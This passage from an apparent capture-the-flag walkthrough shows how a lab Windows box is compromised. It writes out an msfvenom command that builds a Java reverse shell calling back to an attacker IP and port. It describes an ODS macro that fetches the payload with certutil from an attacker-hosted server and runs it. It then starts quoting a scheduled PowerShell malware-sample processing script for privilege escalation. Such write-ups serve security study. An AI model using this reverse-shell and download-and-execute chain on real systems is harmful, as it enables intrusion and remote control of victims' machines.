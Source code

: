 
{% include image.html image_alt="109601c2.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/109601c2.png" %}


Well, my payload `dick.jar` is a reverse shell written in Java generated by `msfvenom`. The box must have Java Runtime Environment (JRE) installed right, because of _Kenny in IT_. :wink:

```
# msfvenom -p java/shell_reverse_tcp LHOST=10.10.15.203 LPORT=1234 -f jar -o dick.jar
Payload size: 7548 bytes
Final size of jar file: 7548 bytes
Saved as: dick.jar
```

We host the file with Python's `SimpleHTTPServer` module. Upon opening the ODS file, the macro will download the payload with `certutil.exe` and write to `c:\windows\tracing\dick.jar`, a place where `Everyone` has write access. Next, we `put` in a new ODS file to execute the reverse shell.

We should get a reverse shell if nothing goes wrong.


{% include image.html image_alt="cb9b7f25.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/cb9b7f25.png" %}


Sweet. The `user.txt` is at `luke`'s desktop.


{% include image.html image_alt="883dc28f.png" image_src="/7e989f7c-38a9-473c-9448-35379c0e3755/883dc28f.png" %}


## Privilege Escalation

During enumeration of `luke`'s account, I noticed a scheduled task running `process_samples.ps1` under `luke`'s privileges.

~~~~powershell
$process_dir = "C:\Users\luke\Documents\malware_process"
$files_to_analyze = "C:\Users\luke\Documents\ods"
$yara = "C:\Users\luke\Documents\yara64.exe"
$rule = "C:\Users\luke\Documents\ods.yara"      

while($true) {
	# Get new samples      
	move C:\Users\luke\Documents\malware_dropbox\* $process_dir

	# copy each ods to zip file
	Get-ChildItem $process_dir -Filter *.ods |                 
	Copy-Item -Destination {$_.fullname -replace ".ods", ".zip"}

	Get-ChildItem $process_dir -Filter *.zip | ForEach-Object {

		# unzip archive to get access to content
		$unzipdir = Join-Path $_.directory $_.Basename     
		New-Item -Force -ItemType directory -Path $unzipdir | Out-Null       
		Expand-Archive $_.fullname -Force -ErrorAction SilentlyContinue -DestinationPath $unzipdir               

		# yara to look for known malware
		$yara_out = & $yara -r $rule $unzipdir
		$ods_name = $_.fullname -replace ".zip", ".ods"
		if ($yara_out.length -gt 0) {
			Remove-Item $ods_name
		}
	}

  # if any ods files left, make sure they launch, and then archive:            
  $files = ls $process_dir\*.ods           
~~~~